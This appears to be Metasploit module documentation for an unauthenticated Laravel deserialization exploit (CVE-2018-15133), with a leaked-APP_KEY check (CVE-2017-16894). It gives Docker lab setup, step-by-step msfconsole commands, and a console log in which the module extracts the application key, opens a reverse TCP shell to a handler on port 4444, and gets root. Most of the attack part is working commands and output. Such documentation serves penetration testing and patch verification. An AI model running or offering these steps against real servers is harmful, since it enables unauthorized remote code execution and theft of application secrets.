 ## Vulnerable Application

[Laravel](https://laravel.com/) is an actively-maintained PHP Framework web development suite

This module exploits an unauthenticated vulnerability that allows for PHP object deserialization and command execution

The vulnerability was discovered by [Ståle Pettersen](https://github.com/kozmic/laravel-poc-CVE-2018-15133)
Also uses https://nvd.nist.gov/vuln/detail/CVE-2017-16894 to check for a leaked key.
Finally checks for another leaked key method which may not be known and perhaps 0day?


### Setting up Laravel on Debian

git clone https://github.com/kozmic/laravel-poc-CVE-2018-15133
Edit Dockerfile and change sed -i -e 's/5.7.\*/5.6.29/g' to sed -i -e 's/5.8.\*/5.6.29/g'
docker build -t laravel-poc-cve-2018-15133
docker run -d -p 8000:8000 laravel-poc-cve-2018-15133

## Verification Steps

- Start `msfconsole`
- `use exploits/unix/http/laravel_token_unserialize_exec`
- `set RHOST 1.2.3.4`
- `set RPORT 8000` (for Docker image)
- `set APP_KEY base64_string` (optional)
- `set VERBOSE true` (optional)
- `check`
- `exploit`

## Scenarios

msf5 > use exploit/unix/http/laravel_token_unserialize_exec 
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set RHOSTS 1.2.3.4
RHOSTS => cloudapp1
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set RPORT 8000
RPORT => 8000
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set VERBOSE true
VERBOSE => true
msf5 exploit(unix/http/laravel_token_unserialize_exec) > check

[*] 1.2.3.4:8000 - No APP_KEY set. Will try to find it...
[*] 1.2.3.4:8000 - Checking for CVE-2017-16894 .env information leak.
[*] 1.2.3.4:8000 - Checking for Laravel Framework information leak.
[*] 1.2.3.4:8000 - Laravel Framework throws an error!
[*] 1.2.3.4:8000 - Target appears to be vulnerable
[*] 1.2.3.4:8000 - APP_KEY Found via Laravel Framework error information leak: +hYWnYjz5mGnw92MgZHJJ/mgmoKietP8ZSYL4u+1rvk=
[+] 1.2.3.4:8000 - The target is vulnerable.
msf5 exploit(unix/http/laravel_token_unserialize_exec) > exploit 

[-] Handler failed to bind to 1.2.3.1:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] 1.2.3.4:8000 - No APP_KEY set. Will try to find it...
[*] 1.2.3.4:8000 - Checking for CVE-2017-16894 .env information leak.
[*] 1.2.3.4:8000 - Checking for Laravel Framework information leak.
[*] 1.2.3.4:8000 - Laravel Framework throws an error!
[*] 1.2.3.4:8000 - Target appears to be vulnerable
[*] 1.2.3.4:8000 - APP_KEY Found via Laravel Framework error information leak: +hYWnYjz5mGnw92MgZHJJ/mgmoKietP8ZSYL4u+1rvk=
[*] Command shell session 1 opened (1.2.3.1:4444 -> 1.2.3.4:48772) at 2019-07-06 12:41:31 +1000
id

uid=0(root) gid=0(root) groups=0(root)

